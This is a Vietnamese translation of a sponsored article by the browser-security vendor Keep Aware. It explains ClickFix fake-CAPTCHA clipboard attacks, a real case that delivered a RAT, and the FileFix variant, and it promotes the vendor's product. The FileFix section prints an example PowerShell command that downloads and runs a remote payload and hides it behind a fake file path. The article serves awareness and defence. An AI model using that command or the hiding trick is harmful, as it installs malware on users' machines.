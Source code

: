 # Bên trong một cuộc tấn công Clickfix thực tế: Cách mà thủ thuật kỹ thuật xã hội này diễn ra

![Chuột mạng](https://www.bleepstatic.com/content/posts/2025/07/30/cyber-click.jpg)

Một cái nhìn sâu sắc về một chiến dịch ClickFix và một cuộc tấn công thực tế, thế hệ tiếp theo của nó (FileFix), và cách để ngăn chặn nó ngay từ đầu, trước khi thiết bị bị xâm nhập.

## ClickFix: Sao chép im lặng vào Clipboard

ClickFix, một chiến thuật kỹ thuật xã hội lừa đảo, được sử dụng bởi các tác nhân đe dọa để thao túng những người dùng không nghi ngờ, để cho phép một trang web một cách vô tình sao chép vào clipboard một cách âm thầm.

Cuối cùng, kẻ tấn công đang cố gắng để khiến người dùng (mà không biết) thực thi mã độc hại, được thu thập từ trình duyệt và lén lút đặt vào clipboard của người dùng, trên máy chủ.

Ban đầu được đặt tên là “ClickFix” vì các thông báo kỹ thuật xã hội cho biết người dùng nên “khắc phục” một vấn đề với trình duyệt của họ và yêu cầu người dùng nhấp vào một yếu tố, thuật ngữ này hiện giờ được gán cho bất kỳ cuộc tấn công nào tương tự, một cuộc tấn công mà trong đó người dùng nhấp vào một yếu tố, trang web sau đó làm đầy clipboard của nạn nhân và hướng dẫn người dùng dán mã độc hại vào terminal của thiết bị của họ.

![Hình ảnh của một cuộc tấn công ClickFix giả dạng như một thông báo CAPTCHA.](https://www.bleepstatic.com/images/news/security/k/keepaware/clickfix/ClickFix_CAPTCHA.jpg)

**Hình ảnh của một cuộc tấn công ClickFix giả dạng như một thông báo CAPTCHA.**

Các screenshot ở trên cho thấy một ví dụ về cuộc tấn công ClickFix. Ngay khi người dùng nhấp vào CAPTCHA giả, trang web âm thầm làm đầy clipboard của người dùng bằng mã độc hại. Sau đó, nó hiển thị hướng dẫn để người dùng chứng minh rằng họ là con người—bằng cách dán (mã độc hại) vào hộp thoại Run của Windows.

Để biết thêm thông tin về ClickFix, xem bài viết của chúng tôi giải thích [các vấn đề, lý do, nơi và cách thức của ClickFix](https://keepaware.com/blog/clickfix-the-what-why-where-and-how-of-it-all?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly).

## [Ngăn chặn các cuộc tấn công ClickFix ngay tại nơi chúng bắt đầu: Trong trình duyệt](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)

Keep Aware, nền tảng bảo mật trình duyệt tùy chỉnh, phát hiện các tương tác lừa đảo theo thời gian thực, ngay tại nơi chúng xảy ra.

Bằng cách theo dõi các mẫu truy cập clipboard, đánh dấu các trang web đáng ngờ và ngăn chặn các kỹ thuật di chuyển bên như ClickFix, Keep Aware giúp các tổ chức ngăn chặn các cuộc tấn công trước khi chúng rời khỏi trình duyệt và tiếp cận máy chủ.

[Yêu cầu một Demo](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)

## Cuộc tấn công thực tế: Kết quả Google đến nỗ lực ClickFix

Một khách hàng của Keep Aware gần đây đã gặp phải một cuộc tấn công ClickFix trong thực tế. Trong khi duyệt kết quả công cụ tìm kiếm, người dùng đã nhấp vào một trang web bị xâm nhập. Trang web này, bị tiêm mã JavaScript độc hại, đã cung cấp một thông báo ClickFix, với mục đích cuối cùng là triển khai backdoor NetSupportManager RAT.

Người dùng đã nhấp vào thông báo, cho phép trang web làm đầy clipboard (với PowerShell độc hại), và hướng dẫn người dùng dán vào terminal của thiết bị.

Tuy nhiên, Keep Aware đã xác định, chặn và cảnh báo người dùng về các lệnh đáng ngờ mà trang đã cố gắng làm đầy clipboard, hiệu quả ngăn chặn việc xâm nhập thiết bị.

Video dưới đây mô tả những gì người dùng trải nghiệm trên trang web bị xâm nhập này—một khung xác minh CAPTCHA giả. Khi nhấp vào CAPTCHA giả, mã JavaScript độc hại cập nhật clipboard của người dùng bằng mã PowerShell độc hại và nhắc nhở người dùng dán nó vào hộp thoại Run của Windows.

Dưới đây là một hướng dẫn về những gì sẽ xảy ra nếu các biện pháp bảo vệ của Keep Aware không có sẵn để hạn chế hành động của người dùng và xóa clipboard của người dùng.

Nếu chiến thuật kỹ thuật xã hội đã thành công và không có kiểm soát kỹ thuật nào tồn tại, người dùng sẽ không biết được là đã thực thi mã PowerShell độc hại.

Điều này kích hoạt một loạt các tải xuống, giải mã, lắp ráp phần mềm độc hại trên máy chủ, và thiết lập tính liên tục trong khóa đăng ký Run của người dùng—cho phép phần mềm độc hại tồn tại trên thiết bị bị xâm nhập và chạy mỗi khi người dùng đăng nhập vào tài khoản máy tính của họ.

Để biết thêm chi tiết về cuộc tấn công thực tế này, bao gồm cả cái nôi tải xuống ban đầu và mã PowerShell tiếp theo, hãy xem [hướng dẫn từng bước của chúng tôi](https://keepaware.com/blog/clickfix-to-remote-access-a-step-by-step-walkthrough?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly).

## Tác động: RATs, Stealers và nhiều hơn nữa

Các cuộc tấn công ClickFix sử dụng mã JavaScript độc hại, thao túng clipboard và kỹ thuật xã hội để cuối cùng có được quyền truy cập của kẻ tấn công từ trình duyệt đến thiết bị máy chủ.

Chúng đã được nhìn thấy trên cả các trang web độc hại và bị xâm nhập và đã được sử dụng bởi nhiều nhóm đe dọa để có quyền truy cập vào máy của nạn nhân, cuối cùng triển khai phần mềm độc hại và trojan truy cập từ xa (RATs), bao gồm AsyncRAT, Skuld Stealer, Lumma Stealer, phần mềm độc hại DarkGate, DanaBot stealer, và nhiều hơn nữa.

Khi không bị ngăn chặn bởi các biện pháp phòng ngừa kỹ thuật, những cuộc tấn công clipboard tưởng chừng như đơn giản này có thể leo thang thành sự xâm nhập toàn bộ hệ thống, cho phép các tác nhân đe dọa kiểm soát từ xa, truy cập vào dữ liệu nhạy cảm và vị trí bám trụ liên tục mà khó phát hiện và thậm chí còn khó loại bỏ hơn.

## Thế hệ tiếp theo: FileFix

FileFix là thế hệ tiếp theo, là em trai của ClickFix—một cuộc tấn công thao túng clipboard khác được thiết kế để lừa người dùng thực thi mã bên ngoài bối cảnh trình duyệt. Được ghi nhận lần đầu tiên bởi nhà nghiên cứu bảo mật mr.d0x vào cuối tháng Sáu năm nay, FileFix lừa người dùng dán các lệnh trực tiếp vào thanh địa chỉ của File Explorer, và các tác nhân đe dọa đã bắt đầu áp dụng kỹ thuật mới này.

Thoạt nhìn, đầu ra được dán có vẻ vô hại, như một đường dẫn tập tin chuẩn của Windows. Nhưng ẩn sâu bên trong là một lệnh độc hại; “đường dẫn tập tin” mà theo sau là một chú thích, che giấu mối đe dọa thực sự.

```
Powershell.exe -c "iwr malicious[.]site/mal.jpg|iex" #                                                                                          C:\Organization\Internal\Drive\Business-RFP.pdf
```

Dữ liệu đầy đủ được sao chép vào clipboard của người dùng là một lệnh PowerShell độc hại kết thúc bằng một chú thích chứa đường dẫn tập tin.

Lưu ý trong hình ảnh bên dưới, cách mà đường dẫn tập tin có vẻ vô hại trong thanh địa chỉ của Explorer không hiển thị PowerShell thực tế bị ẩn khỏi tầm nhìn của người dùng.

![File Explorer, mở bởi một tab Chrome.](https://www.bleepstatic.com/images/news/security/k/keepaware/clickfix/fileexplore-filefix.jpg)

**File Explorer, mở bởi một tab Chrome.**

Giống như ClickFix, cuộc tấn công FileFix bắt nguồn từ trình duyệt và dựa vào kỹ thuật xã hội, tiêm clipboard, và hành động của người dùng để vượt qua ranh giới giữa trình duyệt và máy chủ. FileFix, ở cốt lõi của nó, là một cuộc tấn công ClickFix dành riêng cho việc sử dụng File Explorer.

* Cả hai đều xảy ra trong bối cảnh trình duyệt.
* Cả hai đều sử dụng cùng một kỹ thuật làm đầy clipboard.
* Cả hai đều lợi dụng các trang web độc hại và bị xâm nhập, làm mờ ranh giới giữa lưu lượng web đáng tin cậy và độc hại.
* Cả hai đều dẫn đến quyền truy cập của kẻ tấn công vào thiết bị máy chủ.

Điều này có nghĩa là FileFix có thể được ngăn chặn theo cùng một cách như ClickFix: với các biện pháp bảo vệ gốc trong trình duyệt. Các giải pháp bảo mật trình duyệt, như Keep Aware, phát hiện các nỗ lực làm đầy clipboard theo thời gian thực và ngăn chặn mã đáng ngờ trước khi nó đến tay thiết bị máy chủ. Đây là lý do tại sao có các chính sách được xây dựng vào trình duyệt đảm bảo rằng các xâm nhập được giữ ở xa.

## An ninh trình duyệt chiếm ưu thế

Các cuộc tấn công ClickFix và FileFix tiết lộ một điểm mù quan trọng trong nhiều chiến lược bảo mật: trình duyệt như một vectơ cho sự xâm nhập của máy chủ. Những kỹ thuật dựa trên clipboard này sử dụng kỹ thuật xã hội và lạm dụng tương tác của người dùng với các trang web dường như hợp pháp, hoặc thậm chí bị xâm nhập, để chuyển giao mã độc hại.

Nếu không có khả năng nhìn thấy hoạt động trình duyệt hoặc kiểm soát truy cập clipboard, các biện pháp phòng ngừa truyền thống sẽ bỏ lỡ các dấu hiệu sớm. Nhưng với ​​cái nhìn gốc trong trình duyệt và bảo vệ clipboard theo thời gian thực, các tổ chức có thể chặn các cuộc tấn công này tại nguồn, trước khi bất kỳ mã nào được thực thi trên máy chủ.

Tại Keep Aware, chúng tôi đã thấy rõ cách mà các công cụ bảo mật truyền thống không đủ khả năng bảo vệ trình duyệt—giao diện chính mà nhân viên dựa vào và kẻ tấn công khai thác. Đó là lý do tại sao chúng tôi xây dựng nền tảng của mình: để phát hiện và chặn các cuộc tấn công thao túng clipboard và các cuộc tấn công khác dựa trên trình duyệt trước khi chúng có thể gây ra thiệt hại thực sự.

**Bạn có muốn tìm hiểu thêm không? Hãy thoải mái [yêu cầu một demo ở đây.](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)**

Ngoài ra, chúng tôi tự hào được vinh danh là một trong chỉ [bốn](https://keepaware.com/blog/keep-aware-named-finalist-in-black-hat-usa-2025-startup-spotlight-competition?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)[ ](https://keepaware.com/blog/keep-aware-named-finalist-in-black-hat-usa-2025-startup-spotlight-competition?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)[Các ứng viên Spotlight Khởi nghiệp Black Hat USA 2025](https://keepaware.com/blog/keep-aware-named-finalist-in-black-hat-usa-2025-startup-spotlight-competition?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly) về đổi mới, và chúng tôi luôn cam kết định hình lại cách mà các tổ chức bảo mật và quản lý trình duyệt—nơi mà công việc ngày nay bắt đầu, và nơi mà các cuộc tấn công ngày nay thường khởi phát.

Nếu bạn sẽ tham dự Black Hat USA 2025 vào tuần tới, hãy xem chúng tôi trên sân khấu để trình bày ý tưởng của mình, ghé qua gian hàng Keep Aware, hoặc **[lên lịch thời gian để trò chuyện với đội ngũ](https://keepaware.com/events/black-hat-usa-2025)** tại sự kiện.

_Được tài trợ và viết bởi [Keep Aware](https://keepaware.com/request-a-demo?utm%5Fsource=bleeping%5Fcomputer&utm%5Fmedium=article&utm%5Fcampaign=clickfix%5Fattack%5Fjuly)._
